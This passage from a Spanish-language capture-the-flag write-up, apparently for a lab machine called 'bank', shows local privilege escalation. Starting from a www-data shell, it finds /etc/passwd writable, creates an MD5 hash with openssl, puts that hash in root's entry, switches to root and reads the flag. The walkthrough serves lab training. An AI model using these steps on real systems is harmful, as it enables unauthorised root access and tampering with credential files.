www-data@bank:/tmp$ find /etc -writable 2>/dev/null
/etc/passwd
```



Por lo tanto, generamos una contraseña a través de `openssl` y verificamos que en este caso, el usuario`root` no disponía de ninguna contraseña asignada. Con lo cual, podemos añadir un nuevo usuario, o remplazar la `x` por el valor de nuestra contraseña generada para que el usuario`root` disponga de nuestras credenciales.

```bash
www-data@bank:/tmp$ openssl passwd -1 gzzcoo
$1$eb5EWdLO$tyxkHG/AFdZsl8iK62EQu/

www-data@bank:/tmp$ cat /etc/passwd | grep root
root:x:0:0:root:/root:/bin/bash
```

Modificamos el archivo `/etc/passwd` y le asignamos al usuario`root` nuestras credenciales generadas, verificamos que los cambios se han guardado correctamente.

```bash
www-data@bank:/tmp$ cat /etc/passwd
root:$1$eb5EWdLO$tyxkHG/AFdZsl8iK62EQu/:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```

Migramos al usuario `root` e introducimos nuestras credenciales asignadas. Verificamos el acceso como usuario`root` y la flag **root.txt**.

```bash
www-data@bank:/tmp$ su root
Password: 
root@bank:/tmp# whoami
root
root@bank:/tmp# cat /root/root.txt 
66b882036c**********************
```
